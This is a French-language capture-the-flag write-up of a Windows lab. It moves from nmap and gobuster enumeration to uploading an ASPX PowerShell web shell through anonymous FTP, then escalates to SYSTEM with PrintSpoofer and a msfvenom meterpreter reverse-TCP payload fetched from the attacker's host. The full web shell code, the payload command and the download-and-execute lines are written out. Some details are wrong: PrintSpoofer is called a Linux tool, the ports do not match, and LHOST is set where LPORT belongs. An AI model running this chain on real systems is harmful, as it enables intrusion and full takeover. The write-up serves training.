Description
Windows systems use tokens to manage the privileges of users. These tokens determine what kind of operations users can perform on the system.  
  
It is recommended to practice stealing tokens by exploiting misconfigured services on the system and performing token manipulation and privilege escalation attacks with the stolen token.

Système : Windows

Etape : 

- Enumération des ports, services et versions 
nmap -sC -sV 172.20.34.178


Boom on  a le service ftp qui accepte le mode anonymous, le service SMB sur le port 445 et le service **Microstof IIS** sur le port 80

Accéder a la page web 



Découverte des répertoires cachées: 

```
gobuster dir -u http://172.20.34.178/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```


Boom La premiere faille c'est qu'on peu accéder au repertoire /ftp sur notre navigateur, ce qui signifie qu'on peu uploader un fichier et le déclancher 

- Se connecter au ftp en mode anonyme 
credentials : anaonymous/anonymous 


D'après la structure on voit que le site héberge un  ASP.NET. 

- Test d'upload d'un fichier test.txt et essayé d'accéder 

Inéressant on peut uploader un fichier. 

Accéder via le navigateur :


Vulnérabilité confirmée. 

- Uploader un shell 
Donc vu que le Site fonctionne en **ASP.NET** , un fichier .**aspx** peux exécuter du code. 

Donc on  va créer un fichier **.aspx** qu'on va ensuite uploader 

Trouver le payload ici : [https://github.com/ThePacketBender/webshells/blob/master/POWERshell.aspx]()

Paylaod :

`<%@ Page Language="C#" %>`
`<%@ Import Namespace="System.Collections.ObjectModel"%>`
`<%@ Import Namespace="System.Management.Automation"%>`
`<%@ Import Namespace="System.Management.Automation.Runspaces"%>`
`<%@ Assembly Name="System.Management.Automation,Version=1.0.0.0,Culture=neutral,PublicKeyToken=31BF3856AD364E35"%>`

`<!DOCTYPE html>`

`<script Language="c#" runat="server">`

    `private static string powershelled(string scriptText)`
    `{`
        `try`
        `{`
            `Runspace runspace = RunspaceFactory.CreateRunspace();`
            `runspace.Open();`

            `Pipeline pipeline = runspace.CreatePipeline();`
            `pipeline.Commands.AddScript(scriptText);`
            `pipeline.Commands.Add("Out-String");`

            `Collection<PSObject> results = pipeline.Invoke();`
            `runspace.Close();`
            `StringBuilder stringBuilder = new StringBuilder();`
            `foreach (PSObject obj in results)`
                `stringBuilder.AppendLine(obj.ToString());`

            `return stringBuilder.ToString();`
        `}catch(Exception exception)`
        `{`
            `return string.Format("Error: {0}", exception.Message);`
        `}`
    `}`
    
    `protected void Page_Load(object sender, EventArgs e)`
    `{`
        `if (Page.IsPostBack)`
        `{`
            `if(iTBox.Text.Length > 0)`
            `{`
                `oTBox.Text = powershelled(iTBox.Text.Trim());`
                `iTBox.Text = string.Empty;`
            `}`
        `}`
    `}`
`</script>`

`<html>`
`<head id="D34dHead" runat="server">`
    `<title>POWER!shelled</title>`
`</head>`
`<body>`
    `<form id="form1" runat="server">`    
        `<span>Index </span>`
        `<span>POWER!webshell</span>><br />`
    `<asp:TextBox ID="oTBox" runat="server" BackColor="Black"` 
        `Height="480px" ReadOnly="True" TextMode="MultiLine" Forecolor="Green"`
        `Width="1200px" ToolTip="POWER!shell output"></asp:TextBox>`
    `<br />`
    `<asp:TextBox ID="iTBox" runat="server" Width="1200px"` 
        `ToolTip="<POWER!shell command>"></asp:TextBox>`
    `</form>`
`</body>`
`</html>`

Uploader le fichier 

put Powershell.aspx 



Exécuter le fichier 


Récupérer les utilisateurs locales 

Commande : 
```
Get-LocalUser 
```


Ineressant on a 4 utilisateurs actifs dont deux de tres importants **, Administartor** et **liam**
Voire les informations sur un utilisateur : le group auquel il appartient et autres : 

```
net user liam 
```


- **Escalade de priviledge** 

Pour éléver nos privileges, nous allons utiliser l'outil PrintSpoofer qui est un outil puissant utilisé pour le Privesc sous les systemes Linux 
###### **Comment ça marche ?**

##### **Principe technique :**

1. Le service **Spooler** (gestionnaire d'impression) tourne avec les privilèges **SYSTEM**
    
2. L'exploit crée un **pipe nommé** et se fait passer pour un serveur d'impression
    
3. Il force le service Spooler à se connecter à ce pipe
    
4. En usurpant l'identité du service Spooler, on obtient un token **SYSTEM**
    

##### **Pourquoi c'est efficace en CTF ?**

##### **Conditions requises :**

- Windows Server 2019/2022 ou Windows 10/11
    
- Service **Spooler** actif (généralement lancé par défaut)
    
- Accès avec un compte utilisateur **non privilégié**
    
- **SeImpersonatePrivilege** ou **SeAssignPrimaryTokenPrivilege** (souvent présent)

Etape : 

Vérifier s'il est exploitable 

- **Vérifier le service Spooler**

`sc query spooler`

 Vérifier les privilèges
```
whoami /priv
```

 Chercher ces privilèges :
```
SeImpersonatePrivilege       *CRITIQUE*
```
```
SeAssignPrimaryTokenPrivilege
```



Tout est disponible ce qui signifie que le systeme est vulnérable 

**Exploitation :** 

Payload :
```
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.8.96.179 lport=4444 -f exe > reverse.exe
```

- Mettre un serveur python 
```

python -m http.server 8090 

```



- Télécharger Télécharger le reverse.exe et le PrintSpoofer sur la cible 
Commande :
```
wget  http://10.8.96.179:8089/reverse.exe -OutFile C:\Windows\Temp\reverse.exe

wget  http://10.8.96.179:8089/PrintSpoofer64.exe -OutFile C:\Windows\Temp\Spoofer64.exe
```

Avant d'exécuter, il faut d'abord mettre en écoute metasploit en utilisant exploit/multi/handler 

```
msf> use exploit/multi/handler
msf> set LHOST 10.8.96.179
msf> set LHOST 4444
msf> set payload windows/x64/meterpreter/reverse_tcp
msf> exploit
```

```
C:\Windows\Temp\Spoofer64.exe -i -c "C:\Windows\Temp\reverse.exe"
```



Boom nous somme admin 


Le Nom : **Jordan Smith**
